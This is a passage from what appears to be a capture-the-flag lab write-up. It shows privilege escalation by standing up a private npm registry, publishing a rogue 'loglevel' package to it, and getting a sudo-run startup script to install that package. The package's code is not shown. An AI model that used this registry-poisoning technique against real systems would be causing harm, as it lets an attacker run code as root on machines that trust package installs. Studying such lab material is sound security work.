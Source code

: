     
    
    oxdf@hacky$ sudo docker run -it --rm --name verdaccio -p 4873:4873 -e 'VERDACCIO_PUBLIC_URL=http://10.10.14.6' verdaccio/verdaccio
     warn --- config file  - /verdaccio/conf/config.yaml
     warn --- Plugin successfully loaded: verdaccio-htpasswd
     warn --- Plugin successfully loaded: verdaccio-audit
     warn --- http address - http://0.0.0.0:4873/ - verdaccio/5.10.2
    

#### Register Module

Now I’ll submit my module to this new registry. First I need to register:

    
    
    oxdf@hacky$ npm adduser --registry http://10.10.14.6:4873
    Username: 0xdf               
    Password:                                                            
    Email: (this IS public) 0xdf@0xdf.htb
    Logged in as 0xdf on http://10.10.14.6:4873/.
    

Now I’ll publish the module:

    
    
    oxdf@hacky$ npm publish --registry http://10.10.14.6:4873
    npm notice 
    npm notice 📦  loglevel@2.0.1
    npm notice === Tarball Contents === 
    npm notice 367B index.js    
    npm notice 204B package.json
    npm notice === Tarball Details === 
    npm notice name:          loglevel                                
    npm notice version:       2.0.1                                   
    npm notice package size:  486 B                                   
    npm notice unpacked size: 571 B                                   
    npm notice shasum:        ab3dc4ab6663916a6a8a6f6852f3c9e79f4a71b4
    npm notice integrity:     sha512-tY/SaAbYf7LE6[...]qLGE2/OjUBlxg==
    npm notice total files:   2                                       
    npm notice 
    + loglevel@2.0.1
    

#### Exploit

Now I’ll set the `.npmrc` file and the run `startup.sh`:

    
    
    kavi@seventeen:~$ sudo /opt/app/startup.sh 
    [sudo] password for kavi: 
    [=] Checking for db-logger
    [+] db-logger already installed
    [=] Checking for loglevel
    [+] Installing loglevel
    /opt/app
    ├── loglevel@2.0.1 
    └── mysql@2.18.1 
    
